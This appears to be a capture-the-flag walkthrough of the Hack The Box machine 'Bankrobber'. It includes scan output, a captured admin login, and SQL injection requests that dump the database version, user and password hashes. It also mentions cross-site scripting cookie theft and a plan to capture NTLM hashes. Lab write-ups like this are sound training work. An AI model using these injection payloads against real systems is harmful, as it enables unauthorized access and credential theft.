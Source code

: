 # Bankrobber

- Difficulty: "Insane"
- Platform: Windows
---

10.10.10.154

## Nmap
```bash
I wiped out disk without backing up notes like an idiot... 
picking up from web-admin access

The Rundown:

Esentially, there is a database user search and and E-Coin transfer service. 
The transfer service is manually reviewed by an administrator. 

The filed inputs do not validate/sanitize.
A cross-site scripting attack is possible, although finicky, returning the administrators cookie within the response headers.

There seems to be SQL-Injection present in the user database lookup, although I have yet to go any further. I am conflating both these things together and I forget what I actually did ut oh well... continuing.

➜  Bankrobber git:(main) ✗
	sudo nmap -oA nmap/found-TCP-detailed 
	-p$(cat nmap/allports-TCP-initial.nmap | grep open | awk '{ print $1 }' | awk '{ print $0+0}' | sed ':a;N;$!ba;s/\n/,/g')
	-sCV -T4 --min-rate 5000 -Pn 10.10.10.154
 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-30 02:53 EDT
Stats: 0:00:40 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.82% done; ETC: 02:54 (0:00:00 remaining)
Nmap scan report for 10.10.10.154
Host is up (0.027s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp  open  ssl/http     Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-07-30T06:54:01
|_  start_date: 2023-07-30T05:18:55

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.85 seconds
```

`admin:Hopelessromantic`

A regular union select statement reveals version `MariaDB-10.1.38` in field 2:`
```http
POST /admin/search.php HTTP/1.1
Host: 10.10.10.154
Content-Length: 37
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://10.10.10.154
Referer: http://10.10.10.154/admin/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D
Connection: close

term=1'union+select+1,@@version,3-- -
```

```
term=1'union+select+1,user()+from+mysql.user,3-- -
user: `root@localhost`

lucky guess:
term=1'union slect user,password,3 from mysql.user--
hash: *F435725A173757E57BD36B09048B8B610FF4D0C4
```

SHA-1 hash decodes to `Welkom1!`. This could be either admin or gio's password. 
Connections aren't permitted to the MySQL service from an external IP. Localhost only:
```bash
➜  loot git:(main) ✗ mysql -u 'gio' -p 'Welkom1!' -h 10.10.10.154
mysql: Deprecated program name. It will be removed in a future release, use '/usr/bin/mariadb' instead
Enter password: 

ERROR 1130 (HY000): Host '10.10.14.2' is not allowed to connect to this MariaDB server
```

This password does not work on SMB. 
A possibility would be to capture an NTLM hash since mysql is available.

Resources: 
https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds
https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/

Querying `term=1'union select @@secure_file_priv,2,3;-- -` outputs nothing in field 1, indicating that the secure file privilege parameter is not effective.

